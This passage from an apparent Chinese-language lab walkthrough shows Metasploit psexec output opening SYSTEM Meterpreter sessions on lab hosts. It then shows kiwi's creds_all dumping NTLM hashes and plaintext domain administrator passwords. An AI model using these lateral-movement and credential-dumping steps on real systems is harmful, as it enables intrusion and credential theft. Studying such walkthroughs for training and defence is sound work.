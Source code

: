 ```bash
[*] 192.168.93.20:445 - Selecting PowerShell target
[*] 192.168.93.20:445 - Executing the payload...
[+] 192.168.93.20:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 192.168.93.20:4444
[*] Sending stage (201798 bytes) to 192.168.93.20
[*] Meterpreter session 7 opened (192.168.3.100:39039 -> 192.168.93.20:4444) at 2024-10-08 19:47:02 +0800
[*] Session 7 created in the background.
[*] Exploiting target 192.168.93.30
[*] 192.168.93.30:445 - Connecting to the server...
[*] 192.168.93.30:445 - Authenticating to 192.168.93.30:445 as user 'administrator'...
[*] 192.168.93.30:445 - Selecting PowerShell target
[*] 192.168.93.30:445 - Executing the payload...
[+] 192.168.93.30:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 192.168.93.30:4444
[*] Sending stage (201798 bytes) to 192.168.93.30
[*] Meterpreter session 8 opened (192.168.3.100:42267 -> 192.168.93.30:4444) at 2024-10-08 19:47:07 +0800
[*] Session 8 created in the background.
msf6 exploit(windows/smb/psexec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  7         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN2008  192.168.3.100:39039 -> 192.168.93.20:4444 (192.168.93.20)
  8         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN7     192.168.3.100:42267 -> 192.168.93.30:4444 (192.168.93.30)
```

### kiwi模块获取DC凭据
还剩下一个域控机器,先进入win2008的会话中,加载一下kiwi
```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain   LM                                NTLM                              SHA1
--------       ------   --                                ----                              ----
Administrator  TEST     fc5d63d71569f04399b419bc76e2eb34  18edd0cc3227be3bf61ce198835a1d97  0f058e319f079c15fe3449bbeffc086cfa4d231e
Administrator  WIN2008  ae946ec6f4ca785b93371dee1d5ee7e6  31c1794c5aa8547c87a8bcd0324b8337  128c0272959b85b330090611169d07d85cb6bd0b
WIN2008$       TEST                                       c47b1f47431b259861e615472864c698  5a09ade7dca624916c39473fd609c22302dd33bc

wdigest credentials
===================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  TEST     zxcASDqw123!!
Administrator  WIN2008  123qwe!ASD
WIN2008$       TEST     94 1f 08 44 5a 0c 6d 4d dd a9 9d 09 7a d0 72 bb e9 81 69 7e 96 9f 78 74 f2 9e d3 f2 98 74 7a 2f 49 4e b7 18 01 e5 94 75 8f 57 11 44 d4 31 17   
```